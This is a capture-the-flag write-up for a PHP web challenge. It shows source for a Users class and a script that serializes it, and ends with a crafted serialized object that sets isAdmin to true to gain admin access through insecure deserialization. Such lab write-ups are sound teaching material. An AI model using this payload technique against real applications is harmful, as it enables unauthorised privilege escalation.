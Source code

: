 Challenge Description :
### What do you know about OOP?

Looking at the landing page, a classic ref to the Source code.

![Alt text](image.png)

Checking the source Code we have a Class Users with the attributes:

![Alt text](image-1.png)


string -> username
string -> password 
boolean -> isAdmin
string -> id

checking for the win condition we need to be admin, That's a simple deserlization attack , since we contrtol the deseralized data we can create an instance of the object in the runtime


Using the original code to create an instance of the class user with Useranme = 0x21AD and password = password cuz we have those two variables 

<?php

class Users
{
    private $username;
    private $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}

$user = serialize(new Users("0x21AD" , "yuri"));

echo $user;

?>

and we get our payload  :
![Alt text](image-2.png)

# But we have a prefix `Users` appended to all the attributes values.
All we need to do is to either manually modify the payload or use chatgpt (lazy way)!

and we get our final working payload, just modify the boolean value of isAdminto be 1 which means True:

O:5:"Users":4:{s:8:"username";s:6:"0x21AD";s:8:"password";s:4:"yuri";s:7:"isAdmin";b:1;s:2:"id";s:0:"";}


![Alt text](image-3.png)